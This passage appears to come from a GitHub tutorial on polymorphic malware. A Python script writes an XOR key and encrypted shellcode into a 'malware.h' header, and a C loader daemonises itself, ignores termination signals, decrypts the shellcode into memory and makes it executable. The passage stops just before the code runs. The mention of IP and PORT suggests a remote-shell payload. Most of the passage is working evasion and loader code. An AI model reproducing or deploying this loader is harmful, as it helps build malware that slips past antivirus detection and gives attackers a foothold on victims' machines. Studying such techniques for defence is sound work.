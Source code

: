 ```python
with open('malware.h', 'a') as header:
    header.write(include_statements)
    header.write('unsigned char KEY[] = ')
    header.write('"' + KEYstr + '";')
    header.write("\n")
    header.write('unsigned char CYP[] = ')
    header.write('"' + cipherstr + '";')

```

Say we call this `engine.py`.
This changes for each call so for each different key (as well as IP and PORT) we
have a malware which "looks" different when compiled.

(Note that this is simple for demonstration purposes, most polymorphic code is
also self-replicating and uses more sophisticated methods of obfuscation/encryption).

<br>

***

## Running the Obfuscated Shellcode

***

Since the shellcode is encrypted, we cannot simply run it, however, having the key
it is trivial to decipher the shellcode to later execute.

The completed file is as follows:

```c
#include "malware.h"

int main(void)
{
    // daemonize and run the process in the background
    if (daemon(0, 0) == -1) return 5;
    signal(SIGTERM, SIG_IGN);

    // allocate the memory
    void *mem = mmap(NULL, sizeof(CYP), PROT_READ | PROT_WRITE,
        MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (mem == MAP_FAILED) {
        perror("mmap");
        return 1;
    }

    /* decrypt using simple xor cipher with key KEY */
    unsigned char plain[sizeof(CYP)];
    for (int i = 0; i < sizeof(CYP); i++)
    {
        // This allows flexibility for different key sizes
        plain[i] = CYP[i]^KEY[i % sizeof(KEY)];
    }
    
    // Write the now decrypted machine code into the newly allocated page
    memcpy(mem, plain, sizeof(plain));

    // Change the page protections to read + execute
    if (mprotect(mem, sizeof(plain), PROT_READ | PROT_EXEC) == -1) {
        perror("mprotect");
        return 2;
    }

    // execute the function directly from memory
    printf("Shellcode Length: %d\n", (int)sizeof(plain)-1);
```